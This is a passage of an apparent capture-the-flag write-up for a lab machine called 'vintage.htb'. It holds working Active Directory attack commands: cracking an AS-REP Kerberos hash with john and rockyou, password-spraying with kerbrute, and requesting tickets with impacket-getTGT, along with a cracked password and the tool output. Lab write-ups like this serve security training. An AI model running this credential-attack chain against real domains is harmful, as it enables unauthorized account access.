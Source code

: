 Crack these hashes:
```bash
$john --wordlist=/usr/share/wordlists/rockyou.txt np.txt

Zer0the0ne       ($krb5asrep$23$svc_sql@VINTAGE.HTB)
```
Password sprayed this pass using kerbrute:
```sh
kerbrute passwordspray --dc 10.10.11.45 -d vintage.htb users.txt Zer0the0ne
```
```sh
    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 01/17/25 - Ronnie Flathers @ropnop

2025/01/17 19:41:29 >  Using KDC(s):
2025/01/17 19:41:29 >  	10.10.11.45:88

2025/01/17 19:41:30 >  [+] VALID LOGIN:	 C.Neri@vintage.htb:Zer0the0ne
2025/01/17 19:41:30 >  Done! Tested 17 logins (1 successes) in 0.479 seconds

```

Get tickets from C.Neri and svc_sql.
```bash
impacket-getTGT vintage.htb/C.Neri:Zer0the0ne -dc-ip dc01.vintage.htb

[*] Saving ticket in C.Neri.ccache
```
```sh
impacket-getTGT vintage.htb/svc_sql:Zer0the0ne -dc-ip dc01.vintage.htb
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Saving ticket in svc_sql.ccache
```


C.Neri is an RM user and can log in to the terminal.
```python
cat /etc/krb5.conf
[libdefault]
        default_realm = VINTAGE.HTB
[realms]
        VINTAGE.HTB = {
                kdc = dc01.vintage.htb
                admin_server = dc01.vintage.htb
        }
[domain_realm]
        vintage.htb = VINTAGE.HTB
        .vintage.htb = VINTAGE.HTB
```
